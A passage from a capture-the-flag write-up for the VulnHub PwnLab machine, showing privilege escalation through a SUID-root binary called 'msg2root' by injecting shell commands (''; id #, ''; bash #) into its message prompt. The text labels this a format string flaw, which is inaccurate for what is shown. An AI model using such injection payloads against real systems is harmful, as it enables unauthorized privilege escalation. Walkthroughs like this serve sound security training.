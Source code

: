 ```bash
id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
mike@pwnlab:~$ 
```

YES, now we're `mike`!

## Root

Going to mike's home directory, there is another SUID binary `msg2root`:

```bash
mike@pwnlab:/home/mike$ ls -la
ls -la
total 28
drwxr-x--- 2 mike mike 4096 Mar 17  2016 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 mike mike  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 mike mike 3515 Mar 17  2016 .bashrc
-rwsr-sr-x 1 root root 5364 Mar 17  2016 msg2root
-rw-r--r-- 1 mike mike  675 Mar 17  2016 .profile
mike@pwnlab:/home/mike$ 
```

Let's transfer it to our machine:

![nc msg2root](https://amirr0r.github.io/assets/img/vulnhub/linux/pwnlab/nc-msg2root.png)

Using `ghidra`'s decompiler:

![ghidra msg2root](https://amirr0r.github.io/assets/img/vulnhub/linux/pwnlab/ghidra-msg2root.png)

This time, it looks like a format string vulnerability. 

Indeed, if we execute `id` through this binary, we can see that `euid`, `egid` and `groups` are updated:

```bash
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ''; id #
''; id #

uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)
mike@pwnlab:/home/mike$
```

Let's have shell:

```bash
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ''; bash #
''; bash #

bash-4.3$ id
id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
bash-4.3$
```
